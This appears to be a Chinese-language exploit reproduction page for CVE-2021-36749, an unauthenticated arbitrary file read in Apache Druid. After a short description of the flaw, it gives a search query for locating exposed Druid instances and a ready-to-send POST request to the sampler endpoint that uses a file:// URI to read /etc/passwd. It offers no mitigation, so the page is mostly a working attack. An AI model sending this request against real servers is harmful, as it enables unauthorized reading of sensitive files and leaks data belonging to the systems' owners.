




Apache Druid LoadData 任意文件读取漏洞 CVE-2021-36749¶
漏洞描述¶
由于用户指定 HTTP InputSource 没有做出限制，可以通过将文件 URL 传递给 HTTP InputSource 来绕过应用程序级别的限制。攻击者可利用该漏洞在未授权情况下，构造恶意请求执行文件读取，最终造成服务器敏感性信息泄露。
漏洞影响¶
Apache Druid
网络测绘¶
title="Apache Druid"
漏洞复现¶
主页面

复现过程


请求包为
POST /druid/indexer/v1/sampler?for=connect
Accept: application/json, text/plain, */*
{"type":"index","spec":{"type":"index","ioConfig":{"type":"index","inputSource":{"type":"http","uris":["file:///etc/passwd"]},"inputFormat":{"type":"regex","pattern":"(.*)","columns":["raw"]}},"dataSchema":{"dataSource":"sample","timestampSpec":{"column":"!!!_no_such_column_!!!","missingValue":"1970-01-01T00:00:00Z"},"dimensionsSpec":{}},"tuningConfig":{"type":"index"}},"samplerConfig":{"numRows":500,"timeoutMs":15000}}
